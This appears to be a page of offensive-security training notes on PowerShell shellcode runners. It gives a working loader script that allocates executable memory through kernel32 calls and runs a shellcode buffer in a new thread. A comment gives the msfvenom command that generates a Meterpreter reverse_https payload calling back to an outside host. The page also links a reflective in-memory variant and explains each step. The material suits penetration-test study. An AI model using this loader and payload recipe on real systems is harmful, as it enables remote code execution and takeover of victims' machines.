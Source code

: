 

### Using Add-Type and C\#

C data types to C# data types "translation" can be done with P/Invoke APIs (Platform Invocation Services) at [www.pinvoke.net](http://www.pinvoke.net/) (e.g., [VirtualAlloc](http://www.pinvoke.net/default.aspx/kernel32.VirtualAlloc)).

{% code title="ShellcodeRunnerv1.ps1" %}
```powershell
$Win32 = @"
using System;
using System.Runtime.InteropServices;

public class Win32 {
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

    [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
}
"@

Add-Type $Win32

[Byte[]] $buf = 0x31,0x33,...,0x33,0x37
$size = $buf.Length
# msfvenom -p windows/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f ps1
[IntPtr]$addr = [Win32]::VirtualAlloc(0, $size, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)
$thandle = [Win32]::CreateThread(0, 0, $addr, 0, 0, 0)
[Win32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```
{% endcode %}



### Reflectively using DelegateType (in Memory)

* [https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Shellcode%20Process%20Injector/Shellcode%20Process%20Injector.ps1](https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Shellcode%20Process%20Injector/Shellcode%20Process%20Injector.ps1)

What's going on here:

1. `lookupFunc` 👉🏻 to obtain a reference to the `System.dll` assembly's `GetModuleHandle` and `GetProcAddress` methods using `GetType` and `GetMethod` functions (aka the [Reflection](https://docs.microsoft.com/en-us/dotnet/csharp/programming-guide/concepts/reflection) technique).
2. `getDelegateType` 👉🏻 to define the argument types for the APIs [using a delegate type via Reflection](https://docs.microsoft.com/ru-ru/archive/blogs/joelpob/creating-delegate-types-via-reflection-emit) and return it.
3. `VirtualAlloc` 👉🏻 to allocate writable, readable, and executable (unmanaged) memory space in virtual address space of the calling process.
4. `Copy` 👉🏻 to copy the shellcode bytes into allocated memory location.
5. `CreateThread` 👉🏻 to create a new execution thread in the calling process and execute the shellcode.
6. `WaitForSingleObject` 👉🏻 to delay termination of the PowerShell script until the shell fully executes.
